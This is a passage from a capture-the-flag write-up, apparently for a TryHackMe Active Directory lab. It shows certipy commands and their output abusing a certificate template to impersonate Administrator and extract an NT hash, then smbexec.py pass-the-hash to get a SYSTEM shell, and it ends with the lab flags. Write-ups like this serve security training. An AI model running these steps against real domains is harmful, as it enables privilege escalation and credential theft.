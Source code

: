 Now, let's request the certificate:

```python
certipy req -username 'SUSANNA_MCKNIGHT@thm.local' -password 'CHANGEME2023!' -ca thm-LABYRINTH-CA -target labyrinth.thm.local -template ServerAuth -upn Administrator@thm.local

Certipy v5.0.3 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: labyrinth.thm.local.
[!] Use -debug to print a stacktrace
[!] DNS resolution failed: The DNS query name does not exist: THM.LOCAL.
[!] Use -debug to print a stacktrace
[*] Requesting certificate via RPC
[*] Request ID is 25
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator@thm.local'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

We got it, we can now proceed to authenticate with it to get our hash for administrator:

```python
certipy auth -pfx administrator.pfx -domain thm.local -dc-ip IP

Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@thm.local 
[*] Trying to get TGT... 
[*] Got TGT 
[*] Saved credential cache to 'administrator.ccache' 
[*] Trying to retrieve NT hash for 'administrator' 
[*] Got hash for 'administrator@thm.local': aad3b435b51404eeaad3b435b51404ee:07d677a6cf40925beb80ad6428752322
```


We got our hash, we can finally use `smbexec.py` to authenticate using the hash:

```python
python3 smbexec.py -k -hashes :07d677a6cf40925beb80ad6428752322 THM.LOCAL/Administrator@labyrinth.thm.local

[-] CCache file is not found. Skipping...
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250624144621.png)

We can finally get both flags and end the CTF:

```PYTHON
C:\Windows\system32>type C:\Users\SUSANNA_MCKNIGHT\Desktop\user.txt
THM{ENUMERATION_IS_THE_KEY}

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
THM{THE_BYPASS_IS_CERTIFIED!}
```



![](CYBERSECURITY/IMAGES/Pasted%20image%2020250623203625.png)


